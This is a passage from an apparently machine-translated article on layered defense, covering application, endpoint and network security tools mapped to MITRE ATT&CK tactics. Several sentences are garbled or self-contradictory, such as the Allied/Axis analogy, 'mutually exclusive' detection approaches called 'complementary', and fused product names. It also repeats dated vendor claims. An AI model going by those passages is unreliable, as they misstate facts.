You should also consider regular and detailed audits of all activities, with emphasis on those that appear close to or outside established norms. For example, audits that reveal high rates of data exchange after normal business hours, where such traffic would not normally be expected, are an issue to be investigated. Perhaps, after checking, you will find that this is nothing more than an employee downloading music or video files. But the important thing is that your monitoring system sees the increase in traffic and determines that it is a simple Internet usage policy violation rather than someone siphoning off more critical data.

There should be clearly established rules for dealing with security, usage and/or policy violations, as well as attempted or actual intrusions. Trying to figure out what to do after it's too late would be too late. And if an intrusion occurs, there must be a clear system to determine the extent of damage; There must be isolation of the exploited application, port or machine and a rapid response to plug the hole against further attacks.

Our first layer of defense is the application security layer. In this layer, we try to prevent attacks on the services we provide outside. The attacker's aim at this layer is to gain access to the target system or cause service interruption.

In this layer:

* Regular vulnerability scans are performed for the applications and services we use. (Vulnerability Management Solutions)
* Application logs are collected and examined in the SIEM system to detect attacks on applications. (SOC)
* Applications are tried to be protected from attacks by being placed behind application firewalls. (WAF)


Application Protection

Zero-day attacks can bypass this layer. Because vulnerability scans cannot detect zero-day vulnerabilities. The rules in our SIEM system do not alert for zero-day vulnerabilities. Our application firewall can be bypassed with various methods ([Defense Evasion](https://attack.mitre.org/tactics/TA0005)-Mitre).

In our scenario, exploiting the RCE vulnerability and gaining access to the target system means that this layer is breached. The initial access phase in Mitre has been successful. Unauthorized access has been achieved and we are not aware of it. However, let's add that the attacker has no gains yet. Still, the attacker seems to be ahead of us 1-0. However, we have 3 more defense lines behind us. Let's continue looking at these.

### Layer 2: Endpoint Protection - Guardians of the Inner Castle



In computer security, access control refers to mechanisms that allow users to perform functions up to the level to which they are authorized and restrict users from performing unauthorized functions. Access control(**Access Control**) includes:

* Authentication of users (**Authentication**)
* Authorization of privileges (**Authorization**)
* Auditing to monitor and record user actions (**Auditing**)

All computer users will be familiar with some form of access control.

Authentication(**Authentication**) is the process of verifying a user's identity. Authentication is typically based on one or more of these factors:

* Something the user knows, such as a password or PIN (**Something the user knows**)
* Something the user has, such as a smart card or token (**Something the user has**)
* Something personal about the user, such as a fingerprint, retinal pattern, or other biometric identifier (**Something the user is**)

Using a single factor is considered weak authentication, even if multiple proofs are presented. The combination of two factors such as password and fingerprint, called two-factor (or multi-factor) authentication, is considered strong authentication.

Authorization (**Authorization**) is the process of determining what an authenticated user can do. Most operating systems have a set of permissions regarding read, write, or execute access. For example, an ordinary user may have permission to read a particular file but not permission to write to the file, whereas a root or superuser will have full privileges to do everything.

Auditing (**Auditing**) is necessary to ensure that users are held accountable. Computer systems record actions in the system in audit trails and logs. For security purposes, they are invaluable forensic tools for recreating and analyzing events. For example, a user who makes many unsuccessful login attempts may be viewed as an intruder.

The proliferation of malicious software creates the need for antivirus software. Antivirus software was developed to detect the presence of malware, identify its nature, remove malicious software (disinfect the computer), and protect a computer from future infections. Detection should ideally minimize false positives (false alarms) and false negatives (missed malware) simultaneously. Antivirus software faces a number of challenges:

* Malware tactics are complex and constantly evolving.
* Even the operating system on infected computers cannot be trusted.
* Malware can reside entirely in memory without affecting files.
* Malware can attack antivirus processes.
* The processing load of the antivirus software cannot reduce computer performance in a way that causes users to become annoyed and close the antivirus software.

One of the simplest tasks performed by antivirus software is file scanning. This process compares bytes in files with known signatures, which are byte patterns indicative of known malware. It represents the general approach of signature-based detection. When new malware is captured, it is analyzed for unique characteristics that can be identified in a signature. The new signature is distributed as an update to antivirus programs. The antivirus looks for the signature when scanning the file, and if a match is found, the signature specifically identifies malware. However, this method has significant drawbacks: Developing and testing new signatures takes time; users must keep their signature files up to date; and new malware without a known signature may not be detected.

Behavior-based detection is a complementary approach. Rather than addressing what the malware is, behavior-based detection looks at what the malware is trying to do. In other words, anyone who attempts a risky action will fall under suspicion. This approach overcomes the limitations of signature-based detection and can find new malware without a signature, just based on its behavior. However, this approach may be difficult in practice. First, we need to define what is suspicious behavior or, conversely, what is normal behavior. This definition often relies on heuristic rules developed by security experts because it is difficult to precisely define normal behavior. Second, it may be possible to distinguish suspicious behavior, but identifying malicious behavior is much more difficult because bad faith must be inferred. When behavior-based detection flags suspicious behavior, further follow-up investigation is often required to better understand threat risk.

ZaThe ability of malware to change or hide their appearance can defeat file scanning. However, regardless of its form, malware must ultimately do its job. Therefore, if malware is given a chance to work, there will always be an opportunity to detect it from its behavior. Antivirus software will monitor system events such as hard drive access to look for actions that may pose a threat to the computer. Events are monitored by capturing calls to operating system functions.

While monitoring system events is a step beyond scanning files, malicious programs run in the computer execution environment and can pose risks to the computer. The idea of emulation is to run suspicious code in an isolated environment, present a view of computer resources to the code, and look for actions that are indicative of malware.

Virtualization takes emulation one step further and executes suspicious code within a real operating system. A number of virtual operating systems can run on top of the host operating system. Malware can corrupt a virtual operating system, but for security reasons a virtual operating system has limited access to the computer operating system. A "**sandbox**" isolates the virtual environment from interference with the computer environment unless a specific action is requested and allowed. In contrast, emulation does not expose an operating system to questionable code; the code is allowed to run step by step, but in a controlled and constrained way, just to discover what it will try to do.

Anti-spyware software can be viewed as a special class of antivirus software. Slightly different from traditional viruses, spyware can be particularly harmful when it comes to making numerous changes to hard disk and system files. Infected systems tend to have a large number of spyware programs installed, possibly including certain cookies (bits of text placed in the browser by websites for the purpose of keeping them in memory).

Computer-based IDS runs on a computer and monitors system activities for signs of suspicious behavior. Examples could be changes to the system Registry, repeated failed login attempts, or the installation of a backdoor. Host-based IDSs typically monitor system objects, processes, and memory regions. For each system object, IDS typically keeps track of attributes such as permissions, size, modification dates, and hashed contents to recognize changes.

One concern for a computer-based IDS is possible tampering by an attacker. If an attacker gains control of a system, IDS cannot be trusted. Therefore, special tamper protection of IDS must be designed in a computer.

A computer-based IDS alone is not a complete solution. While monitoring the computer makes sense, it has three significant drawbacks: visibility is limited to a single computer; The IDS process consumes resources, possibly affecting performance on the computer; and attacks will not be seen until they reach the computer. Computer-based and network-based IDS are often used together to combine strengths.

We monitor the computer systems we have at the endpoint security layer. These systems are basically divided into two: Windows-based systems and Unix/Linux-based systems. Although the purpose of the attack on these two systems is the same, the methods are different. So what is the attacker's goal at this layer? and what will we do?  
After gaining initial access, the attacker has two main purposes for the system he accesses:

* **Providing permanence**( [Persistence](https://attack.mitre.org/tactics/TA0003)-Mitre) in the system it accesses. In other words, even if the connection is terminated or the system is shut down, being able to access the system without having to exploit the zero-day vulnerability again. There are many different techniques in Windows and Linux/Unix systems to achieve this.
* **privilege escalation**([Privilege Escalation](https://attack.mitre.org/tactics/TA0004)-Mitre) on the system it accesses. In other words, the ability to use high-level authority in the system it accesses. These are the privileges of the **administrator** user on Windows systems, and the privileges of the **root** user on Unix/Linux systems**.**

For methods of ensuring persistence in Windows-based systems, you can take a look at the relevant [article](https://medium.com/@yusufarbc/windows-kal%C4%B1c%C4%B1l%C4%B1k-sa%C4%9Flama-persistence-metotlar%C4%B1-b5fb4ac481c5).


Endpoint Protection

So what do we do while the attacker is doing these? First of all, we are more advantageous in this layer compared to the previous layer. Because the techniques used by attackers to maintain permanence in systems and increase authority are mostly known. Detecting these techniques is not as difficult as detecting zero-day exploitation.

First of all, we need various products to ensure endpoint security. These range from the simplest antivirus system to the most advanced XDR system. If I have to give their names briefly:

* Antivirus/Antimalware
* Antiphishing/Mail Security
* Malware Sandbox
* EPP(Endpoint Protection Platform)
* EDR(Endpoint Detection and Response)
* XDR(Extended Detection and Response)

I won't go into detail about what each of them are for. There are tons of articles on Google about what these systems are. However, in general they are all endpoint security solutions. They aim to detect and block malicious software on endpoints. If the attacker wants to do something on a system he/she has access to, it is necessary to send and run a malicious code (payload) and make a suspicious connection. When this malicious code and link is detected and blocked by these products, we make it 1-1. However, the most important point is that we now become aware that something is going wrong.

In addition, we need to collect logs from our endpoints just like we do in our applications. Basically, syslog on Linux systemsIn Windows systems, real-time logs are sent to our SIEM system via eventlog. Rules in our SIEM system can detect privilege escalation and persistence activities and create alerts. Our security team, who sees this warning, can understand that something is wrong.

Regardless of the operating system, there are **3 important questions** that need to be answered when analyzing a believed-to-be-attacked endpoint.

* 1. Is there any active malicious software (**malware**) in the system?
* 2. Is there any suspicious internal or external communication (**network connection**)?
* 3. Is there any permanence?

A detailed examination of the endpoint for the **3 important things** I mentioned above will reveal the attacker's activity. For this purpose, various forensic tools are used. The most well-known are [**kape**](https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape) and [**thor**](https://www.nextron-systems.com/thor/).

Of course, this awareness is valid for institutions that have experts examining these products. Unfortunately, even if many organizations purchase such endpoint security products, they do not open them and look. Although security products detect and automatically block malware, they may not completely eliminate the attacker's access to the system. In this case, the attacker tries various methods to bypass or disable the security product, and if successful, can also bypass this layer.

### Layer 3: Network Protection - Maze Control

Transport layer protocols, namely Transmission Control Protocol (TCP) and User Datagram Protocol (UDP), define applications that communicate with each other through port numbers. Port numbers 1 through 1023 are well-known and are assigned by the Internet Assigned Numbers Authority (IANA) to standardized services running with root privileges. For example, Web servers listen on TCP port 80 for client requests. Port numbers 1024 through 49151 are used by various applications with ordinary user privileges. Port numbers above 49151 are used dynamically by applications.

```mermaid
C4Container
    title C4 Container - Threat Detection & Monitoring

    Person(person_attacker, Attacker, "Attacks target applications and services.")
    System_Boundary(b_corporate_network, "Corporate Network Boundary") {
        System(sys_corporate_assets, Corporate Assets, "Stores sensitive data.")
    }

    System_Boundary(b_security_layer, "Security Monitoring Layer") {
        Container(c_log_capture, "Log Capture & Parsing", "SIEM (e.g. QRadar, Splunk)", "Collects logs from all system components.")
        Container(c_packet_capture, "Packet Capture", "Wireshark / NDR", "Passively captures and analyzes network traffic.")
    }

    Rel(person_attacker, sys_corporate_assets, "Attacks Applications/Services", "Zero-day exploitation, data exfiltration, lateral movement")
    Rel_Back_Log(c_log_capture, sys_corporate_assets, "Collects Activity Logs", "All invalid attempts, authorization uses, audit failures")
    Rel_Back_Log(c_packet_capture, b_corporate_network, "Passively Analyzes Packets", "Deep packet inspection of internal traffic")
```


*Wireshark network traffic analysis — examining HTTP requests at the packet level.*

It is a good practice to close unnecessary ports as attackers can use open ports,

especially those in the higher range. For example, the Sub7 Trojan is known to use port 27374 by default, and Netbus uses port 12345. However, closing ports alone does not guarantee the security of a computer. Some computers must keep TCP port 80 open for HyperText Transfer Protocol (HTTP), but attacks can be carried out through this port.

When most people think of network security, firewalls are one of the first things that come to mind. Firewalls are a perimeter security tool that protects an internal network from external threats. A firewall selectively allows or blocks incoming and outgoing traffic. Firewalls can be standalone network devices located at the entrance to a private network or personal firewall programs running on computers. An organization's firewall protects the internal community; A personal firewall can be customized to an individual's needs.


A firewall that isolates various network zones.

Firewalls can provide separation and isolation between various network zones, namely the public Internet, private intranets, and a demilitarized zone (DMZ — demilitarized zone), as shown in the figure. Semi-protected DMZ typically includes services provided by an organization. Public servers need some protection from the public Internet, so they are usually located behind a firewall. This firewall cannot be completely restrictive because public servers must be accessible from the outside.

There are various types of firewalls: packet-filtering firewalls, stateful firewalls, and proxy firewalls. In any case, the effectiveness of a firewall depends on the configuration of its rules. Properly written rules require detailed knowledge of network protocols. Unfortunately, some firewalls fail due to negligence or lack of training.e is configured incorrectly.

Packet-filtering firewalls analyze packets in both directions and allow or deny passage based on a set of rules. Rules often examine port numbers, protocols, IP addresses, and other attributes of packet headers. There is no attempt to associate multiple packets with a flow or stream. The firewall is stateless, keeping no memory of one packet from another.

Stateful firewalls overcome the limitation of packet filtering firewalls by recognizing packets belonging to the same flow or connection and keeping track of the connection state. They operate at the network layer and recognize the legitimacy of sessions.

Proxy firewalls (**Proxy firewalls**) are also called application-level firewalls because they operate up to the application layer. They recognize specific applications and can detect whether an unwanted protocol is using a non-standard port or if an application layer protocol is being abused. They protect an internal network by serving as primary gateways for proxy connections from the internal network to the public internet. Due to the nature of the analysis, they may have some impact on network performance.

Firewalls are essential elements of an overall defense strategy, but they have the disadvantage that they only protect the perimeter. They are useless if an attacker has a way to bypass the perimeter. They are also useless against insider threats originating from a private network.

Your first line of defense should be a good firewall, or better yet, a system that effectively combines several security features. Sec from Secure Computingure Firewall (formerly Sidewinder) is one of the most powerful and secure firewall products available and, as of this writing, has never been successfully hacked. It is trusted and used by government and defense agencies. Secure Firewall combines the five most essential security systems–firewall, antivirus/spyware/spam, virtual private network (VPN), application filtering, and intrusion prevention/detection systems–into a single device.

Confusion can arise between application firewalls (AFs) and IPSs. AFs are designed to limit or deny access to an application. AFs prevent malicious code from being executed while closing vulnerabilities in an operating system. AFs block data from certain websites or content by analyzing the type of data stream coming from applications. It also detects attempts to exploit vulnerabilities of an application. AFs use proxies to prevent attacks and focus on traditional firewall functions. AFs detect the signatures of recognized threats and prevent them from infecting the network. Some operating systems offer application firewall as a built-in feature. For example, Windows' Data Execution Prevention (DEP) feature prevents malicious code from being executed. MacOS version 10.5.x offers application firewall as standard.

Every Internet user is familiar with spam email. There is no consensus on an exact definition of spam, but most people agree that spam is unsolicited, mass sent, and commercial in nature. There is also consensus that the vast majority of emails are spam. Spam remains a problem because a small portion of recipients respond to these messages. Although this percentage is small, the revenue generated is enough to make spam profitable because the cost of sending spam in bulk is low. A particularly large botnet can quickly generate enormous amounts of spam.

Yahoo! Users of popular Webmail services such as Webmail and Hotmail are attractive targets for spam because their addresses can be easy to guess. In addition, spammers collect email addresses from various sources: websites, newsgroups, online directories, data-stealing viruses, etc. Spammers may also purchase address lists from companies looking to sell customer information.

Spam is more than just an inconvenience to users and a waste of network resources. Spam is a popular tool for distributing malware and redirecting to malicious Web sites. It is the first step of phishing attacks.

Spam filters work on a corporate and personal level. At the enterprise level, email gateways can protect an entire organization by scanning incoming messages for malware and blocking messages from suspicious or fraudulent senders. One concern at the corporate level is the rate of false positives, which are legitimate messages mistaken for spam. Users whose legitimate mail is blocked may be upset. Fortunately, spam filters can often be customized, making the rate of false positives very low. Additional spam filtering at a personal level can further customize filtering to account for individual preferences.

A vulnerable computer can put not only itself but the entire community at risk. First of all, a vulnerable computer can attract attacks. If compromised, the host can be used to launch attacks against other hosts. The compromised computer may provide information to the attacker, or there may be trust relationships between computers that could help the attacker. In any case, it is undesirable to have a poorly protected computer in your network.


Network Access Control

The general idea of network access control (NAC) is to restrict a host's access to a network unless the computer can provide evidence of a strong security posture. The NAC process involves the computer, the network (usually routers or switches and servers), and a security policy, as shown in the figure.

In some implementations, a software agent runs on the computer, collects information about the computer's security posture, and reports it to the network as part of the network admission request. The network consults a policy server to compare the host's security posture with its security policy to make an acceptance decision.

The acceptance decision can be anything from rejection to partial acceptance or full acceptance. The rejection may occur due to outdated antivirus software, an operating system that requires patching, or firewall misconfiguration. Rejection may lead to quarantine (redirection to an isolated network) or forced remediation

While the tools available for people looking to break into your space are impressive, you also have a wide variety of tools to help you keep them out. But before implementing a network security strategy, you need to be aware of the specific needs of the people who will use your resources. Simple antispyware and antispam tools are not enough. In today's rapidly changing software environment, strong security requires penetration protection, threat signature recognition, autonomous response to identified threats, and the ability to upgrade your tools when needed.  
The following discussion talks about some of the more common tools you should consider adding to your arsenal.

A good intrusion prevention system (IPS) is a step up from a more advanced firewall and provides the ability to create autonomous policies. IPS decides how to respond to application-level threats as well as simple IP address or port-level attacks. IPS products can automatically drop suspicious packets and, in some cases, place them in a "quarantine" file. IPS can also be considered a layer firewall because it makes decisions regarding application context. For an IPS to be effective, it is important that it is able to detect a signature that does not have a signature (false positive), as well as its ability to distinguish a real threat. When an intrusion is detected, the system must quickly notify the administrator so that appropriate avoidance measures can be taken. There are different types of IPS.

* Network-based. Network-based IPSs create a series of choke points within the organization that detect suspected intrusion activity. Placed where they are needed, these systems invisibly monitor network traffic for known attack signatures and then block it.
* Host-based. These systems reside on servers and individual machines, rather than on the network per se. They silently monitor activities and requests from applications, weeding out actions that are prohibited by nature. These systems are generally very good at detecting post-decryption login attempts.
* Content-based. These IPSs scan network packets, looking for signatures of content that is unknown or unrecognizable, or that is clearly labeled as threatening in nature.
* Rate-based. These IPSs look for activity that falls outside normal levels, such as activity that appears to be related to password cracking and brute force penetration attempts.

When looking for a good IPS, look for one that provides at least the following:

* Strong protection for your applications, host systems, and individual network elements against exploitation of vulnerability-based threats such as "single bullet attacks," Trojans, worms, botnets, and the secret creation of "backdoors" in your network
* Protection against threats that exploit vulnerabilities in certain applications, such as web services, mail, DNS, SQL, and Voice over IP (VoIP) services.
* Detection and elimination of spyware, phishing and anonymizers (tools that allow Internet activities to be carried out secretly by hiding the identity information of the source computer)
* Protection against brute-force and DoS attacks, application scanning and flooding.
* A regular method for updating threat lists and signatures (threat intelligence)

Access control systems (ACSs) are based on rules that govern access to protected network resources. These rules control access requests using methods such as tokens or biometric devices for user authentication. Additionally, different network service options may be available depending on time or group needs.They can restrict access to their data. Some ACS products allow you to create a set of access control lists (ACLs), called rules, that define the security policy. These rules may restrict access based on factors such as a specific user, time, IP address, or system logged in. ACS instances such as SafeWord can strengthen network access using two-factor authentication. This system authenticates users using their information (for example, a personal identification number or PIN) and the one-time passwords (OTP) they have. ACSs allow administrators to control access to network resources by defining customized access rules and restrictions. These systems play an important role in security and information security.

Recent trends include the emergence of unified intrusion prevention or UTM systems. UTM systems offer a multi-layered structure by combining multiple security technologies on a single platform. UTM products have a variety of capabilities such as antivirus, VPN, firewall services and also include features such as intrusion prevention and antispam. One of the biggest advantages of UTM systems is their ease of use and configuration and the fact that they can be quickly updated. Sidewinder by Secure Computing is a UTM system with these features. Other UTM systems include Symantec's Enterprise Firewall and Gateway Security Enterprise, Fortinet, LokTek's AIRlok Firewall Appliance, and SonicWall's NSA 240 UTM Appliance. These systems are flexible, fast to update, easy to manage and offer various security features.

It goes without saying that the most secure network, that is, the network that is least likely to be compromised, is the one that does not have a direct connection to the outside world. But this isn't a very practical solution, because the only reason you have a Web presence is to do business. And in the Internet trading game, your biggest concern is not the sheep moving in, but the wolves dressed as sheep moving in with them. So how do you strike an acceptable balance between keeping your network free of intrusions and accessible at the same time?

As your company's network administrator, you walk a fine line between network security and user needs. A good defense that still allows accessYou must have it. Users and customers can be both the lifeblood of your business and the largest potential source of infection. Additionally, if your business thrives by allowing users access, you have no choice but to allow them. This seems like an enormously difficult task at best.

Like an imposing but immovable castle, any defensive measures you set up will eventually be compromised by legions of highly motivated thieves looking to break in. It's a move/countermove game: You adjust, they adapt. That's why you should start with defenses that can adapt and change quickly and effectively as external threats adapt.

First of all, you need to make sure your perimeter defenses are as strong as possible, and that means keeping up with the rapidly evolving threats around you. Gone are the days of relying on a firewall that only performs firewall functions; today's crackers have figured out how to bypass the firewall by exploiting weaknesses in applications. Being merely reactive to attacks and intrusions is not a great option either; It's like waiting for someone to hit you before deciding what to do instead of seeing the approaching punch and moving out of the way or blocking it. You need to be flexible in your approach to the latest technologies, constantly monitoring your defenses to ensure your network's defensive armor can meet the latest threat. To ensure that someone doesn't sneak past something without you noticing, you must have a very dynamic and effective policy to constantly monitor for suspicious activity that can be dealt with quickly when discovered. When this happens it is too late.

This is also a very important component for network administrators: You have to educate your users. No matter how good a job you've done at tightening your network security processes and systems, you still have to deal with the weakest link in your armor: your users. It's no use having bulletproof processes if these processes are so difficult to manage that users skirt around them to avoid the hassle, or if these processes are so loosely structured that a user visiting an infected site could infect your network with the virus. As the number of users increases, the difficulty of securing your network increases significantly.

User training becomes especially important when it comes to mobile computing. Losing a device, using it in a place (or way) where prying eyes might see passwords or data, being aware of hacking tools specifically designed to sniff wireless signals for data, and logging into unsecured networks are all potential problem areas that users should be familiar with.

The traditional approach to network security engineering has been to try to build preventive measures — firewalls — to protect the infrastructure from intrusions. The firewall acts like a filter, catching anything that looks suspicious and keeping everything behind it as sterile as possible. However, while firewalls are good, they often don't do much in the way of identifying compromised applications that are using network resources. And with the pace of evolution seen in the field of penetration tools, an approach designed solely to prevent attacks will become less and less effective.

Today's IT environment is no longer limited to the office as it used to be. While there are still fixed systems inside the firewall, ever more sophisticated remote and mobile devices are entering the workforce. This influx of mobile computing has expanded the traditional boundaries of the network to increasingly remote locations and required a different way of thinking about network security requirements.

The edge or perimeter of your network is changing and expanding beyond its historical boundaries. Until recently, this endpoint was the user, a desktop system or laptop, and these devices were relatively easier to secure. To use a metaphor: The difference between the extremes of early network design and today's extremes is like the difference between the wars of World War II and the current war on terror. Battles in World War II had very clearly defined "front lines"--one side was occupied by the Allied powers, the other by the Allied forces.Purgatory was controlled by the Axis. However, today the war on terrorism has no such front line and is fought in multiple areas with different techniques and strategies customized for each battlefield.

With today's explosion of remote users and mobile computing, the edge of your network is no longer as clearly defined as it once was and is evolving very quickly. So, while having a solid perimeter security system is still a critical part of your overall security policy, your network's physical perimeter can no longer be viewed as your best "last line of defence."

Any policy you develop should be tailored to leverage the power of your unified threat management (UTM) system. For example, firewalls, antivirus, and intrusion detection systems (IDSs) work by trying to block all currently known threats — a "blacklist" approach. But threats evolve faster than UTM systems can, so it's almost always a game of catch-up "after the fact." Perhaps a better and more easily managed policy is to specifically state which devices are allowed access and which applications are allowed to run on your network. This "whitelist" approach helps reduce the amount of time and energy required to keep up with the rapidly evolving pace of threat sophistication because you determine what goes in and what you need to keep out.

Any UTM system you use should enable you to do two things: determine which applications and devices are allowed and provide a policy-based approach to managing those applications and devices. It should allow you to protect your critical resources against unauthorized data extraction (or data leakage), guard against the most persistent threats (viruses, malware, and spyware), and thrive with an ever-changing range of devices and applications designed to penetrate your external defenses.

So what is the best strategy for integrating these new remote endpoints? First, you need to realize that these new remote, mobile technologies are becoming increasingly common and are not going away anytime soon. In fact, they likely represent the future of computing. As these devices gain complexity and functionality, they are pulling end users away from their desks and becoming indispensable tools for some businesses. Corporate iOS/Android devices and the BYOD (Bring Your Own Device) ecosystem now interface with corporate email systems, access networks, and run enterprise-level applications. As such, they pose an increased risk to network administrators due to loss or theft (especially if the device is not protected by a robust authentication method), unauthorized interception of wireless signals, and corporate devices operating outside MDM (Mobile Device Management) policy enforcement.

To deal with the inherent risks, you need to implement an effective security policy to deal with these devices: under what conditions can they be used, how many of your users will need to use them, what levels and types of access will they have, and how will they be authenticated?

Solutions exist to add strong authentication to users seeking access over wireless LANs. Tokens, a type of hardware or software, are used to identify the user to an authentication server to verify credentials. For example, PremierAccess by Aladdin Knowledge Systems can process access requests from a wireless access point and pass them to the network if the user is authenticated.

One of the first steps you can take to ensure the security of your network while allowing mobile computing is to fully educate users of this technology. Users need to have a firm understanding of the risks their mobile device poses to your network (and ultimately the company at large) and that it is an absolute necessity to pay attention to both the physical and electronic security of the device.

So how do you "clean and tighten" your existing network or design a new network that can withstand the inevitable attacks? Let's look at some basics.


network diagram

The illustration in the figure shows what a typical network layout might look like. outside the DMZthat users approach the network via a secure (HTTPS) Web or VPN connection. They are authenticated by the perimeter firewall and directed to a Web server or VPN gateway. If they are allowed through, they can access resources within the network.

If you're an administrator of an organization with only a few dozen users, managing your task (and illustration layout) will be relatively easy.  
But if you need to manage several hundred (or several thousand) users, the complexity of your task increases by orders of magnitude. This makes a good security policy an absolute necessity.

Preventive measures, a reactive approach, are necessary and help reduce the risk of attacks, but it is practically impossible to prevent all attacks. Similar to a burglar alarm, intrusion detection is also necessary to detect and diagnose malicious activity. Intrusion detection is essentially a combination of monitoring, analysis, and response. Typically an IDS supports a console for human interface and display. Monitoring and analysis are often viewed as passive techniques because they do not interfere with ongoing activities. The typical IDS response is a warning to system administrators who may choose to pursue or not pursue further investigation. In other words, traditional IDSs don't offer much response beyond alerts, under the assumption that security incidents require human expertise and judgment for follow-up.

IDS approaches can be categorized in at least two ways. One way is to distinguish between host-based and network-based IDSs depending on where detection is done. While a host-based IDS monitors a single computer, a network-based IDS operates on network packets. Another way to view IDSs is through analysis approaches. Traditionally, the two analysis approaches are abuse (signature-based) detection and anomaly (behavior-based) detection.


Misuse detection and anomaly detection

As shown in the figure, these two views are mutually exclusive.They are complementary to each other and are often used together.

In practice, intrusion detection faces several challenges: signature-based detection can only recognize events that match a known signature; behavior-based detection relies on an understanding of normal behavior, but "normal" can vary greatly. Attackers are clever and evasive; attackers may attempt to jam the IDS with fragmented, encrypted, tunneled, or junk packets; an IDS may not respond to an event in real time or quickly enough to stop an attack; and events can occur anywhere at any time, requiring continuous and comprehensive monitoring with correlation of multiple distributed sensors.

Network-based IDSs typically monitor network packets for signs of reconnaissance, exploitation, DoS attacks, and malware. They have strengths that complement host-based IDSs: network-based IDSs can see the traffic of a population of hosts; can recognize patterns shared by multiple hosts; and they have the potential to see attacks before they reach hosts.


IDSs that monitor various network zones.

IDSs are placed in various locations for different views as shown in the Figure. An IDS outside the firewall is useful for gaining information about malicious activity on the Internet. An IDS in the DMZ will see Internet-borne attacks that can pass through the external firewall and reach public servers. Finally, an IDS in the private network is necessary to detect attacks that can successfully bypass perimeter security.

IDSs are passive techniques. They usually notify the system administrator to investigate further and take appropriate action. If the system administrator is busy or the incident takes time to investigate, the response may be slow.

A variation called an intrusion prevention system (IPS) attempts to combine the traditional monitoring and analysis functions of an IDS with more active automated responses, such as automatically reconfiguring firewalls to block an attack. An IPS aims to provide a faster response than humans can achieve, but its accuracy depends on the same techniques as traditional IDS. The response must not harm legitimate traffic, so accuracy is critical.

We monitor our corporate network at the network security layer. At this point, we benefit from many network security systems. So what is the attacker's goal at this layer? and what will we do?


Network Protection

At this stage, the attacker tries to discover the corporate assets through the infected endpoint ([Reconnaissance](https://attack.mitre.org/tactics/TA0043)-Mitre) and to spread to other systems by lateral movement ([Lateral Movement](https://attack.mitre.org/tactics/TA0008)-Mitre). For this reason, it performs intrusion attacks.

We use various products to ensure network security:

* Firewalls
* IDS/IPS(Intrusion Detection Systems/Intrusion Prevention Systems)
* NAC(Network Access Control)
* NDR(Network Detection and Response)
* PAM (Privileged Access Management)

I won't go into detail about what each of them are for. There are tons of articles on Google about what these systems are. However, in general they are all network security solutions.

They are used to analyze and scan network traffic and prevent intrusion attacks. We need to collect the logs from these systems in our SIEM system. By analyzing these logs in our SIEM system, suspicious network activities can be seen and source hosts can be detected.

With Firewall, we can block the malicious IPs we detect and prevent attackers from harming our institution. IDS/IPS systems detect and automatically block intrusion attacks in the corporate network. If attackers' scans and attacks create large amounts of network traffic/noise. Therefore it is easy to detect. However, the attacker who is aware of this situation can try to do his job without making too much noise. By slowing down its scans, it can reduce its visibility in crowded network traffic. Although network security products are effective, they are not insurmountable.

While endpoint security products and network security products are not impenetrable, they present obstacles for attackers to overcome. Attackers trying to bypass these systems waste time and slow down. This creates time for the attack to be detected by security experts. Some cyber attacks can last weeks or even months. As I said before, in the absence of security experts to detect this attack, the attacker will continue his way, albeit slowly.

### Layer 4: Data Protection - The Last Refuge

Once an attack is detected and analyzed, system administrators must provide an appropriate response to the attack. One of the principles in security is that the response should be proportionate to the threat. Obviously, the answer will depend on the circumstances, but a variety of options are available. In general, it is possible to block, slow down, modify or redirect malicious traffic. It is not possible to identify every possible answer. We will explain only two answers here: quarantine and backtracking.

